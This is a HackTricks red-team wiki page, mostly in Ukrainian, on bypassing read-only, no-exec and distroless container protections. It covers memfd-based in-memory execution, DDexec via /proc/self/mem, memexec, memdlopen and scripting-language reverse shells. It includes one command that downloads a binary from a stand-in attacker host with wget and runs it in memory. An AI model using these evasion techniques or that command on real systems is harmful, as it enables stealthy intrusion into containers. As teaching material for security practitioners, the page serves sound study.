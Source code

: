 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

Все частіше можна зустріти linux-машини, змонтовані з **захистом файлової системи тільки для читання (ro)**, особливо в контейнерах. Це пов'язано з тим, що запустити контейнер з файловою системою ro так само просто, як встановити **`readOnlyRootFilesystem: true`** в `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Однак, навіть якщо файлова система змонтована як ro, **`/dev/shm`** все ще буде доступна для запису, тому це неправда, що ми не можемо нічого записати на диск. Проте, ця папка буде **змонтована з захистом no-exec**, тому якщо ви завантажите бінарний файл сюди, ви **не зможете його виконати**.

{% hint style="warning" %}
З точки зору червоної команди, це ускладнює **завантаження та виконання** бінарних файлів, які вже не знаходяться в системі (як бекдори або енумератори, такі як `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Зверніть увагу, що я згадував бінарні файли, ви можете **виконувати будь-який скрипт**, якщо інтерпретатор знаходиться всередині машини, наприклад, **shell-скрипт**, якщо `sh` присутній, або **python** **скрипт**, якщо встановлений `python`.

Однак цього недостатньо, щоб виконати ваш бінарний бекдор або інші бінарні інструменти, які вам можуть знадобитися.

## Memory Bypasses

Якщо ви хочете виконати бінарний файл, але файлова система цього не дозволяє, найкращий спосіб зробити це - **виконати його з пам'яті**, оскільки **захисти не застосовуються там**.

### FD + exec syscall bypass

Якщо у вас є потужні скриптові движки всередині машини, такі як **Python**, **Perl** або **Ruby**, ви можете завантажити бінарний файл для виконання з пам'яті, зберегти його в файловому дескрипторі пам'яті (`create_memfd` syscall), який не буде захищений цими захистами, а потім викликати **`exec` syscall**, вказуючи **fd як файл для виконання**.

Для цього ви можете легко використовувати проект [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Ви можете передати йому бінарний файл, і він згенерує скрипт у вказаній мові з **бінарним файлом, стиснутим і закодованим в b64** з інструкціями для **декодування та розпакування** його в **fd**, створеному за допомогою виклику `create_memfd` syscall, і викликом **exec** syscall для його виконання.

{% hint style="warning" %}
Це не працює в інших скриптових мовах, таких як PHP або Node, оскільки у них немає жодного **за замовчуванням способу викликати сирі системні виклики** з скрипту, тому неможливо викликати `create_memfd`, щоб створити **memory fd** для зберігання бінарного файлу.

Більше того, створення **звичайного fd** з файлом у `/dev/shm` не спрацює, оскільки вам не дозволять його виконати через те, що **захист no-exec** буде застосований.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) - це техніка, яка дозволяє вам **модифікувати пам'ять вашого власного процесу** шляхом перезапису його **`/proc/self/mem`**.

Отже, **контролюючи асемблерний код**, який виконується процесом, ви можете написати **shellcode** і "мутувати" процес, щоб **виконати будь-який довільний код**.

{% hint style="success" %}
**DDexec / EverythingExec** дозволить вам завантажити та **виконати** ваш власний **shellcode** або **будь-який бінарний файл** з **пам'яті**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Для отримання додаткової інформації про цю техніку перевірте Github або:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) є природним наступним кроком DDexec. Це **DDexec shellcode demonised**, тому що щоразу, коли ви хочете **запустити інший бінарний файл**, вам не потрібно перезапускати DDexec, ви можете просто запустити shellcode memexec за допомогою техніки DDexec, а потім **спілкуватися з цим демоном, щоб передати нові бінарні файли для завантаження та виконання**.

Ви можете знайти приклад того, як використовувати **memexec для виконання бінарних файлів з PHP реверс-шелу** за адресою [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

З подібною метою до DDexec, техніка [**memdlopen**](https://github.com/arget13/memdlopen) дозволяє **легше завантажувати бінарні файли** в пам'ять для подальшого виконання. Це може навіть дозволити завантажувати бінарні файли з залежностями.

## Distroless Bypass

### Що таке distroless

Контейнери distroless містять лише **найнеобхідні компоненти для запуску конкретного застосунку або служби**, такі як бібліотеки та залежності виконання, але виключають більші компоненти, такі як менеджер пакетів, оболонка або системні утиліти.

Мета контейнерів distroless полягає в тому, щоб **зменшити поверхню атаки контейнерів, усунувши непотрібні компоненти** та мінімізуючи кількість вразливостей, які можуть бути використані.

### Реверс-шел

У контейнері distroless ви, можливо, **навіть не знайдете `sh` або `bash`**, щоб отримати звичайну оболонку. Ви також не знайдете бінарні файли, такі як `ls`, `whoami`, `id`... все, що ви зазвичай запускаєте в системі.

{% hint style="warning" %}
Отже, ви **не зможете** отримати **реверс-шел** або **перерахувати** систему, як зазвичай.
{% endhint %}

Однак, якщо скомпрометований контейнер, наприклад, запускає flask web, тоді python встановлений, і тому ви можете отримати **Python реверс-шел**. Якщо він запускає node, ви можете отримати Node rev shell, і те ж саме з більшістю будь-яких **скриптових мов**.

{% hint style="success" %}
Використовуючи скриптову мову, ви могли б **перерахувати систему**, використовуючи можливості мови.
{% endhint %}

Якщо немає **захистів `read-only/no-exec`**, ви могли б зловживати своїм реверс-шелом, щоб **записувати у файлову систему свої бінарні файли** та **виконувати** їх.

{% hint style="success" %}
Однак у таких контейнерах ці захисти зазвичай існують, але ви могли б використовувати **попередні техніки виконання в пам'яті, щоб обійти їх**.
{% endhint %}

Ви можете знайти **приклади** того, як **використовувати деякі вразливості RCE** для отримання реверс-шелів скриптових мов та виконання бінарних файлів з пам'яті за адресою [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Якщо вас цікавить **кар'єра в хакінгу** і ви хочете зламати незламне - **ми наймаємо!** (_вимагається вільне володіння польською мовою в письмовій та усній формі_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, подаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
